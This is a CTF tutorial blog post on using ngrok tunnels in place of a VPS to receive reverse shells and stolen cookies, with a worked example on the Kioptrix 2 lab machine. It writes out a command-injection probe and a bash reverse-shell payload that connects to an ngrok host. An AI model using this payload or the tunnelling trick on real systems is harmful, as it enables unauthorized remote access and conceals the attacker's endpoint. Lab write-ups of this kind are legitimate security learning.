 # Doing CTF without paying VPS


## The goal

I think many of us do CTFs, but also many of us don't have any money, because we're student or addict to drugs. So when you don't have any money, you get creative.


![](https://media.giphy.com/media/Km2YiI2mzRKgw/giphy.gif)


For webguys who are looking for a reverse shell or who want admin cookies on a remote host (hello root-me), but don't want to pay for a VPS, there is a free solution. Ngrok.

## How it works?

Rather than making a super long and incomprehensible paragraph, here is a small diagram coming directly from the ngrok site:


![](https://ngrok.com/static/img/demo.png)


So for our needs we will make a tcp tunnel between our port listening with netcat and ngrok. To listen on the internet and wait for remote data:


![](/lib/images/shorts/vpswithoutpay/douille.png)


Now, let's move on to practice.

## Ngrok installation

All those step are explained on the ngrok website. But first, you need to create an account, it will have a unique identifier. You can put garbage:

* Username: bitedepoulet
* Email address: bite@poulet.com
* Password: ***********

And then download the right archive, for me it's `Linux`: https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip

Unzip the archive, past the ngrok line with your private authtoken and we can start.

```
▶ unzip ngrok-stable-linux-amd64.zip 
Archive:  ngrok-stable-linux-amd64.zip
  inflating: ngrok                   

▶ ./ngrok authtoken ENTERYOUROWN
Authtoken saved to configuration file: /home/maki/.ngrok2/ngrok.yml

▶ ./ngrok help                                                 
NAME:
   ngrok - tunnel local ports to public URLs and inspect traffic

DESCRIPTION:
    ngrok exposes local networked services behinds NATs and firewalls to the
[...]
```

It's successfully installed.

## Practical example

Ok, so I start a boot2root machine on `root-me.org`: kioptrix 2 (download link + WU in resource section).

Here is the RCE:


![](/lib/images/shorts/vpswithoutpay/kioptrix_rce.gif)


Now, let's check which command are available for a reverse shell:

> ; which nc python python2 python3 perl ruby php bash


![](/lib/images/shorts/vpswithoutpay/kioptrix_available.png)


You can find lot of amazing payload on: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

We will use `bash` command with the following payload:

> bash -i >& /dev/tcp/NGROK_IP/NGROK_PORT 0>&1

* NGROK_IP: Is the ngrok remote host with a domain like "0.tcp.ngrok.io".
* NGROK_PORT: The forwarding port associate to the ngrok remote host.


![](/lib/images/shorts/vpswithoutpay/ngrok_rtcp.gif)


I used `netcat` for my port listening, but you can use `python3 -m http.server 31337` to catch GET data with a real web server for example.

## Conclusion

This little trick allowed me to solve a lot of challenges without having a VPS. I hope you enjoyed this little blogpost :)

Feel free to ask me what you want on twitter @maki_chaz. 

Happy hacking guys :D

## Resources

1. Root-me, __Une plateforme rapide, accessible et réaliste pour tester vos compétences en hacking.__, _Root-me official website_: https://www.root-me.org/
2. Ngrok team, __What is ngrok?__, _Official ngrok blog_: https://ngrok.com/product
3. Vulnhub, __Kioptrix: Level 1.1 (#2)__, _Vulnhub team_: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
4. Abatchy, __Kioptrix 2 Walktrhough (Vulnhub)__, _abatchy's blog_: https://www.abatchy.com/2016/12/kioptrix-2-walkthrough-vulnhub.html
5. pentestmonkey, __Reverse Shell Cheat Sheet__, _pentestmonkey blog_: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
